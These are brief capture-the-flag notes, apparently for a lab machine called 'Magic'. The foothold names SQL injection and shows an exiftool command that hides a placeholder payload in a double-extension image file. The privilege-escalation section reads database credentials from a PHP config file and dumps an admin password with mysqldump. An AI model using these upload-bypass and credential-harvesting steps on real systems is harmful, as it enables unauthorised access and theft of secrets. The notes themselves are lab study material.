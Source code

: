 # recon

# foothold
## exploit : #Injection_SQL
## image extension pypass
```
sxiftool -comment=<payload> image.php.jpeg
```
# Privesc
## lateral movement
```
www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

list of installed application
```
ls -alh /usr/bin/ | grep mysql
mysqldump Magic -u theseus -p
```
	INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
## root
#ExploitNotAbsolutPath 
